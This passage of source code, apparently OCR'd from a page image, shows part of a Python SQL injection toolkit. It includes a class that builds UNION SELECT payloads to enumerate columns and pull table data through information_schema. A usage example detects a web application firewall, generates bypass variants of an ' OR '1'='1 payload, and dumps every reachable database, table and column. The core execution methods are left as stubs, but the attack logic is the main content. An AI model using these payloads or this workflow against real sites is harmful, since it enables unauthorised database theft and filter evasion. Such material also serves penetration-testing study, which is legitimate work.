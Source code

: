 ```python
        results = self._execute_payload(payload)
        return self._parse_results(results)

    def enumerate_columns(self, database, table):
        """List columns in table"""
        if self.db_type == 'MySQL':
            payload = f"' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_schema='{database}' AND table_name='{table}'-- "

        results = self._execute_payload(payload)
        return self._parse_results(results)

    def extract_data(self, database, table, columns):
        """Extract data from table"""
        cols = ','.join(columns)
        payload = f"' UNION SELECT {cols},NULL FROM {database}.{table}-- "

        results = self._execute_payload(payload)
        return self._parse_results(results)

    def _execute_payload(self, payload):
        """Execute SQLi payload"""
        # Implementation...
        pass

    def _parse_results(self, response):
        """Parse results from response"""
        # Implementation...
        pass
```

**Usage:**
```python
# WAF Detection
detector = WAFDetector()
waf = detector.detect(response)
if waf:
    print(f"WAF Detected: {waf}")

    # Bypass WAF
    bypass = WAFBypass()
    payload = "' OR '1'='1"
    bypasses = bypass.generate_bypasses(payload)

    for variant in bypasses:
        response = test_payload(variant)
        if successful(response):
            print(f"Bypass successful: {variant}")
            break

# Database enumeration
enum = DatabaseEnumerator(sqli_point)
databases = enum.enumerate_databases()
for db in databases:
    tables = enum.enumerate_tables(db)
    for table in tables:
        columns = enum.enumerate_columns(db, table)
        data = enum.extract_data(db, table, columns)
        print(f"Data from {db}.{table}: {data}")
```

---